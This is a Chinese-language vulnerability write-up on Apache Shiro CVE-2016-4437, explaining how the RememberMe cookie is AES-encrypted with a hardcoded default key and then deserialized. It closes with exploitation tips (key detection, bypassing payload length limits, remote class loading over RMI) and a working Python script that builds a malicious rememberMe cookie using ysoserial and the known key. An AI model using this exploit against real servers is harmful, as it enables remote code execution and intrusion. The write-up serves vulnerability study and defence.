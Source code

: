 - [Shiro \<=1.2.4 CVE-2016-4437 反序列化漏洞](#shiro-124-cve-2016-4437-反序列化漏洞)
  - [Remember me](#remember-me)
    - [生成过程](#生成过程)
    - [解码过程](#解码过程)
  - [实战Tips](#实战tips)
    - [加密方式](#加密方式)
    - [Key检测](#key检测)
    - [payload过长](#payload过长)
  - [ExP](#exp)
# Shiro <=1.2.4 CVE-2016-4437 反序列化漏洞
**原理:**  
在Remember me功能中,其设置的cookie字段内容可被伪造,且该内容未被验证过滤进行反序列化处理造成反序列化漏洞
## Remember me
Remember me可以为用户生成一个长时间存在的cookie以便即使浏览器关闭后再次打开相关页面也不用再次登输入账号密码
### 生成过程
在onSuccessfulLogin函数中,当用户登录后调用forgetIdentity()来清除之前的认证信息,然后调用isRemeberme判断是否启用了Remeberme功能,如果启用了则调用remeberIdentity()进行后续操作
```java

    public void onSuccessfulLogin(Subject subject, AuthenticationToken token, AuthenticationInfo info) {
        //always clear any previous identity:
        forgetIdentity(subject);//清除已有的认证信息

        //now save the new identity:
        if (isRememberMe(token)) {//判断是否启用remeberme功能
            rememberIdentity(subject, token, info);//后续操作
        } else {
            if (log.isDebugEnabled()) {
                log.debug("AuthenticationToken did not indicate RememberMe is requested.  " +
                        "RememberMe functionality will not be executed for corresponding account.");
            }
        }
    }
```
在rememberIdentity()中首先调用getIdentityToRemember()来获取到用户ID对象,然后调用rememberIdentity()
![](../pic/202007061png.png)
在rememberIdentity()中使用convertPrincipalsToBytes来将用户ID对象序列化为一个字节数组,然后调用加密函数对字节数组进行encrypt
```java
    protected byte[] convertPrincipalsToBytes(PrincipalCollection principals) {
        byte[] bytes = serialize(principals);//序列化
        if (getCipherService() != null) {
            bytes = encrypt(bytes);//调用加密函数
        }
        return bytes;
    }
```
在encrypt()中调用默认的AES算法对字节数组进行加密,而AES的加密密钥则是从getEncryptionCipherKey()中获取的,而该值为一个固定的值.
![](../pic/202007062.png)
默认加密密钥
![](../pic/202007063.png)
rememberIdentity()在得到AES加密后的结果后调用rememberSerializedIdentity()来将该值b64编码后设置到cookie中.
![](../pic/202007064.png)

生成流程:
1. 登录成功后清除已有认证信息,判断Remeberme参数是否为true.
2. 获取用户ID对象,反序列化ID对象之后调用AES加密.
3. 将加密后的结果b64编码后设置到cookie中供后续使用.

![](../pic/202007065.png)
### 解码过程 
去掉登录的session来发送一个带有rememberme cookie的请求,触发resolvePrincipals()方法,在其中调用
getRememberedIdentity()进行remeberme认证,还原用户ID对象.  
```java
    protected SubjectContext resolvePrincipals(SubjectContext context) {

        PrincipalCollection principals = context.resolvePrincipals();

        if (CollectionUtils.isEmpty(principals)) {
            log.trace("No identity (PrincipalCollection) found in the context.  Looking for a remembered identity.");

            principals = getRememberedIdentity(context);
            ...
            ...
```
在getRememberedIdentity()方法中,在该函数中获取到一个getRememberMeManager对象,然后调用其getRememberedPrincipals()方法获取到存储的Principal对象,也就是包含用户信息的一个对象.
```java
    protected PrincipalCollection getRememberedIdentity(SubjectContext subjectContext) {
        RememberMeManager rmm = getRememberMeManager();//获取getRememberMeManager对象
        if (rmm != null) {
            try {
                return rmm.getRememberedPrincipals(subjectContext);//调用getRememberMeManager的getRememberedPrincipals方法
            } catch (Exception e) {
                if (log.isWarnEnabled()) {
                    String msg = "Delegate RememberMeManager instance of type [" + rmm.getClass().getName() +
                            "] threw an exception during getRememberedPrincipals().";
                    log.warn(msg, e);
                }
            }
        }
        return null;
    }
}
```
在getRememberedPrincipals()中从cookie的remeberme字段获取到值进行b64解码得到加密的序列化后的字节数组,然后传入convertBytesToPrincipals中.
![](../pic/202007066.png)
getRememberedSerializedIdentity获取对应cookie值.
![](../pic/202007067.png)
在convertBytesToPrincipals()中对AES加密的值进行解密,解密后直接传入deserialize().
![](../pic/202007068.png)
最后在deserialize中来到最终的readObject方法,造成反序列化漏洞.
![](../pic/202007069.png)
## 实战Tips
### 加密方式
版本大于1.24后由于padding orcal的影响,加密方式由CBC改为了GCM.
### Key检测
1. 一般使用URLDNS模块进行检测,但可能遇到不出网的情况误报.  
2. 默认情况下如果正确的反序列化数据,服务器不会返回`rememberMe=deleteMe`,可以根据返回头确定Key是否正确.
### payload过长
1. 反序列化时只生成一个自定义的classLoader,在classloder中反射defineclass方法,该方法的参数从POST取出,把我们注册filter的这段payload写在static代码块里,编译后的byte再通过POST传递,自定义ClassLoader加载时会自动执行static代码块的代码,代码要URL编码.
2. 反序列化带参数的构造方法或者静态方法的类使用rmi加载远程恶意类,相当于二次反序列化.
## ExP
```python
# pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'URLDNS', command], stdout=subprocess.PIPE)
    BS   = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
    mode =  AES.MODE_CBC
    iv   =  uuid.uuid4().bytes
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
    with open("payload.cookie", "w") as fpw:
        print("rememberMe={}".format(payload.decode()), file=fpw)

```
![](../pic/202007072.png) 

![](../pic/202007071.png)


**参考:**  
https://mp.weixin.qq.com/s/5iYyRGnlOEEIJmW1DqAeXw  
https://xz.aliyun.com/t/8445